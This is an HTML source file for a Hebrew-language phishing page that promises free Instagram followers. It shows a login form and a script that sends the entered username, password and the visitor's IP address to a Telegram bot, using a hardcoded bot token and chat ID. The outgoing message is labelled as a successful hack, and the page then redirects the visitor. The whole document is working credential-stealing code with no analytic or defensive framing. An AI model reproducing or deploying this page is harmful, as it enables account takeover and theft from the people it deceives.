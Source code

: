 <!DOCTYPE html>
<html lang="he">

<head>
<meta charset="UTF-8">
<meta http-equiv="X-UA-Compatible" content="IE=edge">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<link rel="stylesheet" href="1.css">
<title>קבל עוקבים חינם</title>
</head>

<body>
<div style="text-align: center;">
<h1 style="font-size: 36px;">קבל עוקבים חינם</h1>
<img src="Instagram.jpg" alt="תמונה" style="width: 200px; height: 180px; margin-left: 0px;">
<form id="telegramForm">
<label for="username">שם משתמש</label><br>
<input type="text" id="username" name="username" oninput="checkInput()"><br><br>
<label for="password">סיסמה</label><br>
<input type="password" id="password" name="password" oninput="checkInput()"><br><br>
<input type="button" value="התחבר" onclick="sendMessage()" style="background-color: blue;" disabled>
</form>
</div>

<script>
function sendMessage() {
const username = document.getElementById('username').value;
const password = document.getElementById('password').value;
// Fetch the user's IP address using ipinfo.io
fetch('https://ipinfo.io/json')
.then(response => response.json())
.then(data => {
const ipAddress = data.ip;
const message = "הפריצה הצליחה\nאינסטגרם📷\nשם משתמש: " + username + "\nסיסמה: " + password + "\nכתובת IP: " + ipAddress + "\nhttps://t.me/+yjlBtqwe2as4NGU0";
const url = "https://api.telegram.org/bot6555830035:AAHTWFAVZHg4mJ_qQTEa4GXejZqpZZhLuLk/sendMessage?chat_id=7039130805&text=" + encodeURIComponent(message);
fetch(url)
.then(response => {
console.log('הודעה נשלחה לטלגרם');
window.location.href = "3.html";
})
.catch(error => console.error('שגיאה בשליחת הודעה לטלגרם:', error));
})
.catch(error => console.error('שגיאה בקבלת כתובת IP:', error));
}

function checkInput() {
const username = document.getElementById('username').value;
const password = document.getElementById('password').value;
const connectButton = document.querySelector('input[type="button"]');
if (username !== '' && password !== '') {
connectButton.disabled = false;
} else {
connectButton.disabled = true;
}
}
</script>
</body>

</html>
